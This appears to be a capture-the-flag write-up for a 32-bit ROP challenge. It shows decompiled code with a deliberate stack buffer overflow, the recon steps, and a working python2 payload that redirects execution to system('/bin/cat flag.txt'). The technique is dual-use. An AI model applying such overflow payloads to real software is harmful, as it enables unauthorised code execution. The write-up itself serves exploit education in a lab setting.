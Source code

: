 ## Description:
> The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain.
## Write-up:
Like in challenge 1, the `NX` bit is set, and there some interesting function names:
![[Pasted image 20231215174011.png]]
Namely, `usefulFunction` and `pwnme`.
From Ghidra, `pwnme` looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_2c,0x60);
  puts("Thank you!");
  return;
}
```
It contains a buffer overflow vulnerability.
And `usefulFunction` looks like:
```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```
This *is* useful, as it has a call to `system()`, however it does not execute `/bin/cat flag.txt`, which is the goal. So I will need more in order to use this.
Some further recon in Ghidra reveals the exact string I need exists in the binary:
![[Pasted image 20231215174807.png]]
So if I can pass this the the `system()` call in `usefulFunction` and get it to execute I win.
In the disassembly, I can see that the parameter is pushed onto the stack right before `system` is called:
![[Pasted image 20231215175626.png]]
So I just need the address of the  `/bin/cat flag.txt` string to be on the top of the stack when `system` is called. 
Now to create a payload, I need the offset of the return address from the buffer start.
![[Pasted image 20231215175959.png]]
The offset is the same as in Challenge 1, 44 bytes.
So the payload will be of the form:
```
(44 bytes of junk) + (address of call to system()) + (address of usefulString)
```
```bash
python2 -c 'print "\x00"*44 + "\x1a\x86\x04\x08" + "junk" + "\x30\xa0\x04\x08"' > payload.txt
```
![[Pasted image 20231215180605.png]]
As shown in the above picture, using this payload, the exploit was successful and the flag was printed.